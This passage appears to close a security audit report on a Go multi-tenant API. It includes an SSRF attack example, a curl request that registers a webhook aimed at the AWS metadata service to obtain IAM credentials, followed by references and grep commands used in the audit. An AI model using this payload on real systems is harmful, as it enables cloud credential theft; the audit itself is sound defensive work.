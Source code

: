 **Security Score**: 0/10 (CVSS 9.1 CRITICAL)

**Attack**:
```bash
# Access AWS metadata service
curl -X POST https://api.example.com/api/v1/webhook-subscriptions \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Attack",
    "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "events": ["message"]
  }'

# Server fetches AWS credentials and sends to attacker's server ❌
```

---

## References

- OWASP API Security Top 10 (2023): https://owasp.org/API-Security/editions/2023/
- CVSS Calculator v3.1: https://www.first.org/cvss/calculator/3.1
- CWE-639 (BOLA): https://cwe.mitre.org/data/definitions/639.html
- CWE-918 (SSRF): https://cwe.mitre.org/data/definitions/918.html
- CWE-770 (Resource Exhaustion): https://cwe.mitre.org/data/definitions/770.html

---

## Appendix: Discovery Commands

All commands used to generate this report:

```bash
# Total endpoints
grep -r "@Router" infrastructure/http/handlers/*.go | wc -l
# Result: 178

# BOLA vulnerable endpoints
grep -L "authCtx\.TenantID\|authCtx\.ProjectID" infrastructure/http/handlers/*.go | wc -l
# Result: 14 handlers

# RLS policies
grep -r "CREATE POLICY" infrastructure/database/migrations/*.sql | wc -l
# Result: 2

# Multi-tenant tables
grep -r "TenantID" infrastructure/persistence/entities/*.go | cut -d: -f1 | sort -u | wc -l
# Result: 27

# Raw SQL usage
grep -r "db\.Exec\|db\.Raw" infrastructure/persistence/*.go | grep -v test | wc -l
# Result: 18

# RBAC checks in handlers
grep -r "RequireRole\|CheckRole" infrastructure/http/handlers/*.go | wc -l
# Result: 0

# Rate limiting usage
grep -r "RateLimitMiddleware" infrastructure/http/routes/*.go | wc -l
# Result: 1 (only auth routes)

# Handler files
find infrastructure/http/handlers -name "*.go" | wc -l
# Result: 27
```
